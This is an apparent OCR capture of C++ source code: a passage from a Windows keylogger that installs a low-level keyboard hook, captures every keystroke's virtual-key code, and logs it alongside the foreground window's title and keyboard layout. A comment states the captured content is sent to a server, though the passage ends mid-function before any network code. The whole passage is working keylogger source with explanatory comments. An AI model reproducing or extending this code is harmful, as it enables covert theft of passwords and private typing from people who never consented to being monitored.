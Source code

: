 ```cpp
			// lParam is the pointer to the struct containing the data needed, so cast and assign it to kdbStruct.
			kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);

			// send the content to the server
			Save(kbdStruct.vkCode);
		}
	}

	// call the next hook in the hook chain. This is nessecary or your hook chain will break and the hook stops
	return CallNextHookEx(_hook, nCode, wParam, lParam);
}

void SetHook()
{
	// Set the hook and set it to use the callback function above
	// WH_KEYBOARD_LL means it will set a low level keyboard hook. More information about it at MSDN.
	// The last 2 parameters are NULL, 0 because the callback function is in the same thread and window as the
	// function that sets and releases the hook.
	if (!(_hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0)))
	{
		LPCWSTR a = L"Failed to install hook!";
		LPCWSTR b = L"Error";
		MessageBox(NULL, a, b, MB_ICONERROR);
	}
}

void ReleaseHook()
{
	UnhookWindowsHookEx(_hook);
}


int Save(int key_stroke)
{
	std::stringstream output;
	static char lastwindow[256] = "";
#ifndef mouseignore 
	if ((key_stroke == 1) || (key_stroke == 2))
	{
		return 0; // ignore mouse clicks
	}
#endif
	HWND foreground = GetForegroundWindow();
	DWORD threadID;
	HKL layout = NULL;

	if (foreground)
	{
		// get keyboard layout of the thread
		threadID = GetWindowThreadProcessId(foreground, NULL);
		layout = GetKeyboardLayout(threadID);
	}

	if (foreground)
	{
		char window_title[256];
		GetWindowTextA(foreground, (LPSTR)window_title, 256);

		if (strcmp(window_title, lastwindow) != 0)
```